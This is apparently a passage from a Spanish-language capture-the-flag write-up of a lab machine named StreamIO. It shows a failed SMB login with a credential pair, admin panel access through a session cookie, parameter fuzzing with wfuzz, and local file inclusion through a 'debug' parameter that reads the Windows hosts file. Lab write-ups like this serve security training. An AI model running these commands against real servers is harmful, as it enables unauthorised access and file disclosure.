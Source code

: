 ```bash
SMB    10.10.11.158   445  DC       [-] streamIO.htb\yoshihide:66boysandgirls.. STATUS_LOGON_FAILURE 

└─$ rpcclient -U "yoshihide%66boysandgirls.."  10.10.11.158
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
----------------------

# Part 3: Acediendo al panel de admin


Pero si nos permite loguearnos en la pagina de admin, obtenemos su cookie de sesion `PHPSESSID`. 
```bash
└─$ curl -sk https://streamio.htb/admin/index.php                                                  
<h1>FORBIDDEN</h1>                                                                                                                       
┌──(jessica㉿kali)-[~/Documents/streamio]
└─$ curl -sk https://streamio.htb/admin/index.php -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7"
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
...
```  
Vemos que hay varias opciones, las cuales se traducen en parametros... no encontramos ninguno muy interesante, pero a lo
mejor no se estan mostrando todos los posibles
```bash
└─$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' \
 -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" --hh 1678
000001575:   200        49 L     137 W      1712 Ch     "debug"                                               
000003530:   200        10766    25810 W    319472 Ch   "movie" 
000005450:   200        398 L    916 W      12484 Ch    "staff"
000006133:   200        122 L    295 W      3928 Ch     "user"
```

¿Que podemos hacer con debug? Si ponemos un comando no sale nada
```bash
└─$ curl -sk 'https://streamio.htb/admin/index.php?debug=whoami' -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" | html2text | grep -v "^$"
                           ****** Admin panel ******
===============================================================================
    * User_management
    * Staff_management
    * Movie_management
    * Leave_a_message_for_admin
===============================================================================
                      this option is for developers only
```
Pero si ponemos una ruta que sabemos que existe en windows `C:\Windows\System32\drivers\etc\hosts`
```bash
└─$ curl -sk 'https://streamio.htb/admin/index.php?debug=C:\Windows\System32\drivers\etc\hosts' -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" | html2text | grep -v "^$"
(...)
    * Leave_a_message_for_admin
===============================================================================
this option is for developers only# Copyright (c) 1993-2009 Microsoft Corp. # #
This is a sample HOSTS file used by Microsoft TCP/IP for Windows. # # This file
  contains the mappings of IP addresses to host names. Each # entry should be
```                  
Interesante sería ver el codigo fuente de la web, pero no sabemos cual es la ruta aunque intentemos adivinar
```
```